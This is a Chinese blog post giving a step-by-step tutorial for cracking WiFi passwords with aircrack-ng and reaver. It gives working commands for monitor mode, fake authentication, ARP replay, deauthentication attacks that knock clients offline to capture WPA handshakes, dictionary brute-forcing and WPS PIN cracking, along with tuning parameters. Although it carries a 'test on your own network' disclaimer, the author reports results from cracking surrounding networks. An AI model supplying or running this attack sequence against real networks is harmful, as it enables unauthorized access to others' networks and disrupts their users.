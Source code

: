 ```yaml
---
layout: post
title:  "WIFI密码破解笔记"
date:   2015-10-31 09:15:52
comments: true
categories: Tech MITM
---
```

相对于前一段时间脆弱的WEP加密路由器而言，当今的路由器加密方式也大都改变为WPA/WPA2，使得无线路由器的破解难度增加。
虽然如此，但还是有很多漏洞层出不穷，如针对路由器WPS的漏洞。退一步来说，即使加密算法无懈可击，我们还可以针对安全防护中最脆弱的部分——人——来进行破解。
人的想象力实在是匮乏的很，往往设置密码来来回回就是那么几类，用一个常见的弱口令字典，往往就能在10分钟左右把其密码暴力破解出来。
这里提供己种常见的WIFI破解方式，其中WEP破解因为已经过时，所以只是在提到的时候一笔带过，主要记录的是抓握手包然后暴力破解的
通用方法，末尾也会提及到WPS的破解方式。注意这仅仅作为个人实验用，最好在自己的家庭网络中测试，以免给别人带来不便。  

### 准备工具:  
> - Linux操作系统，Windows下可以用虚拟机代替。
> - [aircrack-ng][aircrack]工具集
> - 安装reaver（可选）

 
### Step1. 查看网卡信息，记录无线网卡MAC地址

    #ifconfig -a (以管理员权限运行，下同)

这里假设本机MAC地址为：00:11:22:33:44:55

### Step2. 开启无线网卡，设置为监听模式  
    #airmon-ng start wlan0  [信道号]

其中信道号可以先不填,开启后可以ifconfig看到多了个接口mon0，即为监听接口。值得一提的是，无线网卡的监听模式其实
就相当于有线情况下的混杂模式（Promiscuous Mode）。

注: 如果在较新的系统上运行,可能会出现错误"SIOCSIFFLAGS: Name not unique on network",
这是由于新版的Networkmanager把虚拟的往口mon0也当作硬件设备来管理,导致设备冲突.解决方法有很多:

1.把networkmanager暂时关闭.

    #service network-manager stop

    使用完毕之后再打开即可.

2.直接把wlan0网卡设置为monitor模式:

    #ifconfig wlan0 down
    #iwconfig wlan0 mode monitor
    #ifconfig wlan0 up

3.前面两种方式都会使得wlan0网卡变为monitor模式,从而无法上网,如果有多个网卡可以考虑这两种方式.
  但是如果之有一个无线网卡,我们可以修改networkmanager的配置使其不管理指定的网络接口,在/etc/NetworkManager/Networkmanager.conf文件后面加两行:

    #avoid conflicts with airmon-ng 
    [keyfile]
    unmanaged-devices=interface-name:wlan0mon;interface-name:wlan1mon;interface-name:mon0;interface-name:mon1

然后再和之前一样使用airmon-ng即可.

### Step3. 搜索周围的无线网络  
    #airodump-ng mon0

这条命令会在mon0接口上不断切换信道来搜索附近的wifi热点，在结果中
找到待破解的AP，记录BSSID（这里假设为AA:BB:CC:DD:EE:FF），信道号（这里假定为 6），ESSID（设为myWiFi)

### Step4. 测试无线设备的注入

    aireplay-ng -9 -e myWiFi -a AA:BB:CC:DD:EE:FF mon0

其中

    -9 表示注入测试
    -e myWiFi 是无线网络名字
    -a AA:BB:CC:DD:EE:FF 是接入点的MAC地址
    mon0 是无线接口名字
    返回结果的最后一行表示注入成功率，一般比较高，如果很低表示离AP太远了  

### Step5. 开始抓包

    airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w output mon0

### Step6. 虚拟认证（可选，只在AP为WEP加密的时候才有效）

这里值得一提的是，从前为了破解WEP加密的WIFI，我们需要收集足够多的IVS。如果运气好的话，通常40位WEP（64位密钥）用30万IVs就可以破解，
104位WEP（128位密钥）有150万IVs可以破解，运气不好的话需要更多。为此我们需要用ARP注入的方式加开扑捉IVs的速度。但对于WPA/WPA2我们则没有类
似破解办法，只能通过扑捉握手包来进行暴力破解。 为了AP能够接收packet，源MAC地址必须已经连接。如果你正在注入的源MAC地址没有连接，
AP会忽略所有包并发送一个“DeAuthentication“包。这种情况下，不会有新的IVs被创建。
缺少和AP的连接是注入失败的一个常见原因，记住：你用来注入的MAC地址必须连接AP（通过虚拟认证或者使用已经连接的客户端MAC）

虚拟认证：  

    aireplay-ng -1 0 -e myWiFi -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

其中:

    -1 表示虚拟认证（fake authentication）
    0 表示重新认证的时间（秒）
    -e myWiFi 是无线网络名称
    -a AA:BB:CC:DD:EE:FF 是接入点MAC地址
    -h 00:11:22:33:44:55 是我们网卡的MAC地址
    mon0是无线接口名称

成功有类似下面的输出:

    18:18:20  Sending Authentication Request
    18:18:20  Authentication successful
    18:18:20  Sending Association Request
    18:18:20  Association successful :-)

另外还可以:

    aireplay-ng -1 6000 -o 1 -q 10 -e myWiFi -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

其中:

    6000 - 每6000秒重新认证一次. 长周期同时也会导致发送keep alive packets
    -o 1 - 一次仅发送一组包，默认发送多组，这样会对某些AP导致混乱
    -q 10 - 每10秒发送一次keep alive packets

成功有类似下面输出:

    18:22:32  Sending Authentication Request
    18:22:32  Authentication successful
    18:22:32  Sending Association Request
    18:22:32  Association successful :-)
    18:22:42  Sending keep-alive packet
    18:22:52  Sending keep-alive packet

### Step7. ARP请求重播攻击（可选，只在虚拟认证成功时才有效）

airodump抓包速度比较慢，为了加速包的产生，我们可以使用传统的ARP请求重播攻击（ARP request replay attack）来快速生成IVs（Initialization Vectors）：

    aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

### Step8. 攻击目标客户端使其掉线，获取握手包

和WEP破解最显著的区别是，由于WPA需要暴力破解，因此抓的包里必须至少包含一个握手包，
我们可以发送一种称之为“Deauth”的数据包来将已连接至无线路由器的合法无线客户端断开，此时客户端就会重新连接无线路由器，
我们也就有机会捕获到包含WPA-PSK握手验证的完整数据包了。命令为：

    aireplay-ng -0 1 -a AA:BB:CC:DD:EE:FF -c clientMAC mon0

其中:

    -0 表示采用deauth攻击模式，后卖弄加上攻击次数，这里设置为1，可以根据情况设置为1-10不等（不要设太多不然对方会频繁掉线）
    -a 为AP的MAC ， -c为已连接的客户端MAC

### Step9. 暴力破解抓下来的包

一旦捕捉到WPA handshake，我们就可以开始进行破解了：

    aircrack-ng -b AA:BB:CC:DD:EE:FF output*.cap -w yourdic

其中:

    -b AA:BB:CC:DD:EE:FF 选择了一个我们感兴趣的接入点，这是可选的，因为我们捕捉数据的时候就已经指定了此AP而忽略其他.
    output*.cap 选择我们在Step5里用airodump抓下来的包.
    -w 指定一个破解的字典。破解的效率和字典的选择有很大关系，一般选用弱口令字典，因为强口令破解时间太长，得不偿失。

许多人家里的WIFI都是常见的格式，车牌、手机、名字、拼音等等，从我破解周围WIFI的结果来看，使用通用的WPA/PSK字典来破解，时间往往不会
超过10分钟。这里说点题外话，像用预先计算好的像彩虹表一样的配对表（Pairwise Master Keys）来进行破解也是不行的，因为口令都用ESSID加了盐。所以还是得乖乖抓握手包。

 
### 其他方法（WPS破解）：

除了这样通用的暴力破解外，我们还可以用reaver来破解带WPS的路由器的PIN码，但是对信号的要求很高，如果AP的信号很强，
或者自己的无线网卡很给力，也可以采用这种方式。优点是字典无关，无论路由器密码多强都能破解出来，在我的笔记本上尝试破解了自己家的WIFI密码，
花费的时间大概为5个小时。

以上述AP为例，可以用命令行运行

    reaver  -i  mon0  -b AA:BB:CC:DD:EE:FF  -a  -S  -vv  -d2  -t 5 -c 1

其中：

    -i 监听后接口名称
    -b 目标mac地址
    -a 自动检测目标AP最佳配置
    -S 使用最小的DH key（可以提高PJ速度）
    -vv 显示更多的非严重警告
    -d 即delay每穷举一次的闲置时间 预设为1秒
    -t 即timeout每次穷举等待反馈的最长时间
    -c指定频道可以方便找到信号，如-c1 指定1频道，大家查看自己的目标频道做相应修改 （非TP-LINK路由推荐–d9 –t9参数防止路由僵死  

示例：  

    reaver -i mon0 -b MAC -a -S –d9 –t9 -vv -c 1 

    应因状况调整参数
    目标信号非常好: reaver -i mon0 -b MAC -a -S -vv -d0 -c 1
    目标信号普通: reaver -i mon0 -b MAC -a -S -vv -d2 -t 5 -c 1
    目标信号一般: reaver -i mon0 -b MAC -a -S -vv -d5 -c 1

[aircrack]: http://www.aircrack-ng.org/doku.php?id=simple_wep_crack
